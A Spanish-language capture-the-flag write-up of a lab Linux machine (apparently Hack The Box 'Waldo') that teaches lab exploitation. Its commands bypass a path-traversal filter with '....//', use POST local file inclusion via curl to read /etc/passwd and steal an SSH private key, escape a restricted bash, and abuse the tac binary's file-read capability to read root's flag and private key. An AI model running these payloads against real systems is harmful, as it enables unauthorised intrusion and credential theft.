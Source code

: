 ## Summary

- IP -> 10.10.10.87
- Ports -> TCP (22, 80), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> Open SSH 7.5
    - 80 -> http nginx 1.12.2

## Recon
- Comando -> **whatweb http://< URL>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80

En la pagina, en list2 podemos colocar < h1>Hola< /h1> y nos lo interpreta

Abrimos BurpSuite y recargamos la pagina para poder ver algo 
Mandamos el codigo al Repeater y miramos lo siguiente cuando lo enviamos
	.
	..
	list1
	list2
	
Quiere decir que hay un directorio actual y un anterior de trabajo, ademas de los list que nos salen en la pagina web.

Podemos hacer un **Directory Path Transversal**
**../../../** -> Pero nos damos cuenta que al momento de colocar eso no nos hace nada, por lo que podrian estar haciendo sanitizacion 
Ahora lo colocamos doble resultando asi **....//....//** y asi cuando aplique sanitizacion se quedara de esta manera **../../**

Tenemosun **Directory Listing** 
- **....//** Podemos ver las carpetas atras y podriamos llegar a la raiz, a nivel de Directorios

Ahora con BurpSuite nos ponemos a analizar la parte donde esta el file1
Ahora tenemos un **Local File Inclusion por POST** ya que podemos poner muchos **....//....//** para llegar a la raiz y poder ver el siguiente archivo, a nivel de Archivos
- **....//....//....//....//....//....//etc/passwd**

En este caso para ver mejor el contenido de arriba por Burpsuite, aplicamos el siguiente comando
- Comando -> **curl -s -X POST http://< IP>/fielRead.php -d 'file=./.list/....//....//....//....//etc/passwd'** Miramos la resuesta por POST de la pagina web, y a nivel de (d=data) le pasamos eso 
	- fileRead.php -> lo buscamos en el BurpSuite en la cabecera de POST
- Comando -> **curl -s -X POST http://< IP>/fielRead.php -d 'file=./.list/....//....//....//....//etc/passwd' | jq '.{"file"}' -r** Como es Json lo cambiamos a su formato (r=raw) y ya lo podemos ver mas bonito
	- Rutas que podemos colocar en el file=**./.list/....//....//....//....//home**
Podemos encontrar el .monitor que cuando lo miramos en nuestra consola es un RSA Private Key 
	- Rutas que podemos colocar en el file=**./.list/....//....//....//....//home/nobody/.ssh/.monitor**

Metemos el contenido a un archivo llamado is_rsa en nuestar consola, para despues conectarnos por SSH
- Comando -> **curl -s -X POST http://< IP>/fielRead.php -d 'file=./.list/....//....//....//....//etc/passwd' | jq '.{"file"}' -r** > ../content/**id_rsa**
- Comando -> **chmod 600 id_rsa** Le cambiamos los permisos a un archivo, las claves rsa deben de poseer el privilegio 600

## User
Por lo que nos conectamos por SSH 
- Comando -> **ssh -i id_rsa < user>@< IP>** Nos conectamos por ssh teniendo un id_rsa con privilegio 600
Una vez conectado buscamos el archivo user.txt

Agregamos nuestro PATH a la maquina victima
- Comando -> **id** Identificador de los usuarios (UID), root=UID=0
- Comando -> **sudo -l** Ver que permisos tenemos en el sudoers (l=ele)
- Comando -> **find / -perm -4000 -user root 2>/dev/null** Buscaremos por privilegios suid, para aprovecharnos de un binario y escalar privilegios pero en este caso del usuario root
- Comando -> **cat /etc/crontab** Tareas CRON, que son tareas que se ejecutan a intervalos regulares de tiempos en el sistema 
- Comando -> **ps -e command** Para ver los procesos, comandos que se estan ejecutando y asi poder ganar privilegios

**cd .ssh** -> Nos movemos al dir ssh y le hacemos un **ls -la**
**cat authorized_keys ; echo** -> Podemos ver el contenido del archivo, por lo que vemos que hay un usuario llamado **monitor@waldo** (echo=para hacer en este caso, salto de linea)

Por lo que tratamos de conectarnos de forma local:
**ssh monitor@waldo**

Como no se pudo volvemos a conectarnos como lo hicimos anterirmente con la clave privada que la contiene (.monitor):
**ssh -i .monitor monitor@localhost**
Ingresamos a una restricted bash 

- Comando -> **ssh -i .monitor monitor@localhost bash** Podemos ejecuta un comando, y no nos cargara la restricted bash, y en este caso podemos hacer que nos de una bash. 
Le damos tratamiento:
	- Tratamiento de la consola Linux cuando entras a una maquina victima
			 - **Script /dev/null -c bash** Nos sales que esto no se puede hacer, por lo que hacemos lo siguiente
			 - **Ctrl + z**
			 - **stty raw -echo; fg**
			 -  **reset xterm**
			- **export TERM=xterm** Para poder hacer Ctrl +c y Ctrl + l (l=ele)
			- **export SHELL=/bin/bash**Hacemos que shell ahora valga bash

Aveces no podemos colocar reset por lo mismo que estabamos en una restricted bash, por lo que podemos agregar nuestro PATH y se solcuiona el problema

Ahora para modificar las dimensiones de Vim/nano debemos hacer lo siguiente.
**stty size** Con este comando podemos ver las dimensiones de la consola nano de 24 80 por lo que debemos de modificar ese valor a este
**stty rows 51 columns 189** Modificamos las dimenesiones de la consola nano

- Comando -> **hostname -I** Miramos nuestra interface (I=i mayuscula)
- Comando -> **ls -l** Miramos lo que hay en el directorio 
- Comando -> **id** Identificador de los usuarios (UID), root=UID=0
- Comando -> **sudo -l** Ver que permisos tenemos en el sudoers (l=ele)
- Comando -> **find .** Para ver archivos y sus extensiones y asi ver si podemos ejecutar alguno
	Por lo que encontramos ./monitor/app-dev/logMonitor 
- Comando -> **file ./monitor/app-dev/logMonitor** Nos muestra que tipo de archivo es por los magic numbers y es un ejecutable
- Comando -> **find / -perm -4000 2>/dev/null** Buscaremos por privilegios suid, para aprovecharnos de un binario y escalar privilegios,
- Comando -> **which getcap** Para ver si esta instalado el Getcap y mirar las capabilities

* Comando -> **getcap -r / 2>/dev/null** Listamos las capabilities que existan desde la raiz de forma recursiva

## Root

El tac es un cat pero te muestra el contenido al reves
		***/usr/bin/tac* = cap_dac_read_search+ei** Con esta capabilitie podemos utilizar ese comando para poder leer cualquier archivo privilegiado del sistema
		- Comando -> **tac /root/root.txt** Podemos colocar un archivo de alguna ruta como /etc/shadow, etc... o un file directamente y lo hara como root 

Tambien pordemos conectarnos al usuario root obteniendo su clave privada de la siguente manera:
- Comando -> **tac /root/.ssh/id_rsa | tac** Podemos ver la clave privada del usuario root y podernos conectar por ssh con esa id_rsa, pero en este caso no se puede porque el root no puede hacer login 

Por lo que leemos la flag root.txt 